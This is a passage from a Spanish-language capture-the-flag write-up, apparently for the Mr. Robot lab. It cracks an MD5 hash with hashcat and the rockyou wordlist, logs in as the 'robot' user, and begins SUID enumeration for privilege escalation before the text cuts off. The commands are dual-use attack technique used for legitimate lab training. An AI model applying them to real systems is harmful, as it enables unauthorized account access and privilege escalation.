 ```bash
hashcat -a 0 -m 0 c3fcd3d76192e4007dfb496cca67e13b  /usr/share/wordlists/rockyou.txt
```

- Tras un rato nos saca:

```bash
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

Accedemos al usuario robot con la contraseña crackeada anteriormente.

```bash
su robot
```

Con esto ya podemos acceder al contenido de key-2-of-3.txt ( segunda key )

![key2](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%2013.png)

# → Root:

- Nos quedaría por ultimo elevar privilegios.
- Tras una batería de pruebas, a la hora de buscar ficheros con permisos de **SUID** nos topamos con esto:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Imagenes/Untitled%2014.png)

- Podemos mejorar este comando con:
